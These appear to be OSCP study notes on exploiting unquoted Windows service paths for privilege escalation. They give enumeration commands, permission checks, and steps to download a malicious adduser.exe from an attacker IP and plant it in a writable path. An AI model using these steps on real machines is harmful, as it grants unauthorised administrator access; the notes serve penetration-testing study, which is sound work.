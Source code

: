 # Unquoted service paths

An example of an unquoted service binary path is **C:\Program Files\My Program\My Service\service.exe**. When Windows starts the service, it will use the following order to try to start the executable file due to the spaces in the path.

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

_<mark style="background-color:purple;">**identify unquoted service paths**</mark>_\
enumerate running and stopped services:

{% code overflow="wrap" %}
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
{% endcode %}

more <mark style="color:green;">effective</mark> way to identify spaces in the paths and missing quotes:

{% code overflow="wrap" %}
```shell
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
```
{% endcode %}

* `findstr /i /v "C:\Windows\\"` - only services with a binary path outside of the Windows directory.
* `findstr /i /v """` - print only matches without quotes

_<mark style="background-color:purple;">**check we can start and stop the service**</mark>_

```powershell
Start-Service GammaService
Stop-Service GammaService
```

_<mark style="background-color:purple;">**check access rights for file paths**</mark>_\
check access rights for every location based on the unquoted service path and its paths Windows uses to attempt locating the executable file of the service.

* check for one with write access (unlikely the first 2 as restricted privs)

```powershell
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```

_<mark style="background-color:purple;">**create malicious executable**</mark>_\
use [adduser.exe](https://oscp-26.gitbook.io/oscp-notes/windows-priv-esc/service-binary-hijacking#exploit-service-binaries), msfvenom

_<mark style="background-color:purple;">**install executable in path with write privs**</mark>_\
name executable based on unquoted file path\
&#xNAN;_&#x65;.g if full file path is C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe and C:\Program Files\Enterprise App is writeable then the executable should be named Current.exe_&#x20;

```powershell
iwr -uri http://192.168.48.3/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe
```
